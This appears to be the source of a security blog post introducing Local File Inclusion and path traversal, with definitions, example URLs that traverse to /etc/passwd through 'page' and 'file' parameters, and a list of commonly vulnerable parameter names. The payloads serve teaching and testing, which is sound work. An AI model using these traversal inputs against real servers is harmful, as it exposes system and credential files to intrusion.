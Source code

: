 ```yaml
---
layout: post
title: Local File Inclusion (LFI) & Path Traversal
date: 2025-04-10 17:18 +0300
categories: [Web Security, Server-Side Attacks]
---
```


## Introduction

### Local File Inclusion (LFI)
LFI vulnerabilities allow an attacker to include files on a server through the web browser. This vulnerability occurs when a web application includes a file without properly sanitizing the input, allowing attackers to access sensitive files on the server.

### Path Traversal (Directory Traversal)
Path Traversal allows an attacker to access files and directories outside of the web root folder by manipulating variables that reference files with "../" sequences and its variations.

## Basic Exploitation Techniques

### Standard Path Traversal Vectors

```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?file=../../../etc/passwd
http://example.com/index.php?file=/etc/passwd
```

### Common Vulnerable Parameters

```
page
file
path
dir
document
folder
root
conf
inc
include
show
target
path
style
pdf
template
php_path
```
